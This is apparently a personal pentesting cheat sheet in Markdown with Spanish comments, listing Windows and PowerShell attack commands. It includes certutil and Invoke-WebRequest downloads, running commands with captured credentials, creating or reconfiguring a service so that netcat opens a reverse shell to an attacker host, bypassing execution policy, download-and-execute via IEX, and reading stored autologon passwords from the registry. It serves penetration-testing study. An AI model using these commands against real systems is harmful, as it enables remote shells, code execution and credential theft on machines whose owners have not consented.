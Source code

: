 ![[Pasted image 20230215173659.png]]

---
## [Nishang](https://github.com/samratashok/nishang) ---> Repo de pentesting en Powershell

```powershell
# Mostrar archivos ocultos en el directorio actual
dir /AH
# Buscar archivos en el sistema desde el directorio actual
> dir /r /s {name}
# Realizar una lectura del contenido de un archivo 
> type {file}
# Migrar a usuarios 
> cacls 
# Analizar los permisos de un archivo 
```
## Descargar archivos con certutil.exe
```shell
certutil.exe -f -urlcache -split {url/file} {file}
# Descargar un archivo desde una url y depositarlo 
```
## Play with Scripts Block
```PowerShell
# Al tener credenciales, podriamos intentar ejecutar comandos con ese usuario para poder entablarnos una revershell
> $user = '{domain}\{name}'
# Guardamos en la variable user, el nombre del usuario
> $password = ConvertTo-SecureString '{password}' -AsPlainText -Force
# Guardamos en la variable password lo contraseña, ya que en texto claro nos traeria problemas.
> $cred = New-Object System.Management.Automation.PSCredential($user, $password)
# Creamos la credencial en la variable cred.
> Invoke-Command -ComputerName {computer_name} -Credential $cred -ScriptBlock { "command" }
```
## Create Reverse Shell Service
```powershell

> sc.exe create foo binPath="C:\Users\Dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```
## Manipulate Service Settings to Execute Reverse Shell
```powershell

> sc.exe config VMTools binPath="C:\Users\dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
``` 
## Start and Stop Service
```powershell
> sc.exe start {service}

> sc.exe stop {service}
```
## Download Files with Powershell
```powershell
> Invoke-WebRequest 'http://{dominio}/{recurso}' -OutFile ''

> iwr -uri 'http://{dominio}/{recurso}' -OutFile '{name}'
```
## Bypass Execution Policy
```powershell
> Set-ExecutionPolicy Bypass -Scope Process
```
## Interpret Powershell from Remote Server
```powershell
> IEX(New-Object Net.WebClient).downloadString('http://{dominio}/{recurso}')
```
## Get Windows autologon credentials
```powershell
> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" | Select-Object DefaultDomainName, DefaultUserName, DefaultPassword
```
